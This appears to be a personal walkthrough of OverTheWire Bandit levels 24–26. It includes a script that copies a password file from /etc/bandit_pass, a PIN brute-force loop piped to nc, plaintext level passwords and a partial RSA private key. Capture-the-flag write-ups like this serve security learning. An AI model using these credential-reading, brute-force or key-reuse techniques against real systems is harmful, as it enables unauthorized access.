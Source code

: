 script { # We need to give 777 permission to allow user bandit24 write into file
#!/bin/bash

echo "Executing and writting password to passwd file"

cat /etc/bandit_pass/bandit24 > /tmp/myname12345/passwd

echo "done"
}


password :- **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ**

ssh -p 2220 bandit24@bandit.labs.overthewire.org

# Bandit Level 25 → Level 26
Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd

solution {
cat > brutforce24.txt
#!/bin/bash

END=10000
password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ

for ((i=0;i<=END;i++)); do
	echo "$password $i" >> passnum.txt
done
echo Done
^C

cat passnum.txt | nc localhost 30002
}

password :- **uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**

ssh -p 2220 bandit25@bandit.labs.overthewire.org

# Bandit Level 25 → Level 26
Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd

"""
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEApis2AuoooEqeYWamtwX2k5z9uU1Afl2F8VyXQqbv/LTrIwdW
pTfaeRHXzr0Y0a5Oe3GB/+W2+PReif+bPZlzTY1XFwpk+DiHk1kmL0moEW8HJuT9
/5XbnpjSzn0eEAfFax2OcopjrzVqdBJQerkj0puv3UXY07AskgkyD5XepwGAlJOG
xZsMq1oZqQ0W29aBtfykuGie2bxroRjuAPrYM4o3MMmtlNE5fC4G9Ihq0eq73MDi
1ze6d2jIGce873qxn308BA2qhRPJNEbnPev5gI+5tU+UxebW8KLbk0EhoXB953Ix
3lgOIrT9Y6skRjsMSFmC6WN/O7ovu8QzGqxdywIDAQABAoIBAAaXoETtVT9GtpHW
qLaKHgYtLEO1tOFOhInWyolyZgL4inuRRva3CIvVEWK6TcnDyIlNL4MfcerehwGi
il4fQFvLR7E6UFcopvhJiSJHIcvPQ9FfNFR3dYcNOQ/IFvE73bEqMwSISPwiel6w
e1DjF3C7jHaS1s9PJfWFN982aublL/yLbJP+ou3ifdljS7QzjWZA8NRiMwmBGPIh
Yq8weR3jIVQl3ndEYxO7Cr/wXXebZwlP6CPZb67rBy0jg+366mxQbDZIwZYEaUME
zY5izFclr/kKj4s7NTRkC76Yx+rTNP5+BX+JT+rgz5aoQq8ghMw43NYwxjXym/MX
c8X8g0ECgYEA1crBUAR1gSkM+5mGjjoFLJKrFP+IhUHFh25qGI4Dcxxh1f3M53le
wF1rkp5SJnHRFm9IW3gM1JoF0PQxI5aXHRGHphwPeKnsQ/xQBRWCeYpqTme9amJV
tD3aDHkpIhYxkNxqol5gDCAt6tdFSxqPaNfdfsfaAOXiKGrQESUjIBcCgYEAxvmI